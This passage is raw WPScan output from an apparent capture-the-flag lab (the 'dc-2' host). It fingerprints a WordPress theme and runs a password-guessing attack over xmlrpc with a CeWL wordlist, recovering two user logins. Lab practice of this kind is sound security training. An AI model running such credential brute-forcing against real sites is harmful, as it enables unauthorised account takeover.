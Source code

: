     [+] WordPress theme in use: twentyseventeen
     | Location: http://dc-2/wp-content/themes/twentyseventeen/
     | Last Updated: 2024-07-16T00:00:00.000Z
     | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
     | [!] The version is out of date, the latest version is 3.7
     | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
     | Style Name: Twenty Seventeen
     | Style URI: https://wordpress.org/themes/twentyseventeen/
     | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
     | Author: the WordPress team
     | Author URI: https://wordpress.org/
     |
     | Found By: Css Style In Homepage (Passive Detection)
     |
     | Version: 1.2 (80% confidence)
     | Found By: Style (Passive Detection)
     |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'
    
    [+] Enumerating All Plugins (via Passive Methods)
    
    [i] No plugins Found.
    
    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
     Checking Config Backups - Time: 00:00:00 <====================================================> (137 / 137) 100.00% Time: 00:00:00
    
    [i] No Config Backups Found.
    
    [+] Performing password attack on Xmlrpc against 3 user/s
    Trying root / CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/) Time: 00:00:00 <> (0 / 717)  0.00%  ETA: Trying jerry / CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/) Time: 00:00:00 <> (3 / 717)  0.41%  ETA:[SUCCESS] - jerry / adipiscing                                                                                                     
    [SUCCESS] - tom / parturient                                                                                                       
    Trying root / flag Time: 00:01:04 <==================================                          > (649 / 1127) 57.58%  ETA: ??:??:??
    
    [!] Valid Combinations Found:
     | Username: jerry, Password: adipiscing
     | Username: tom, Password: parturient
    
    [!] No WPScan API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
    ```
    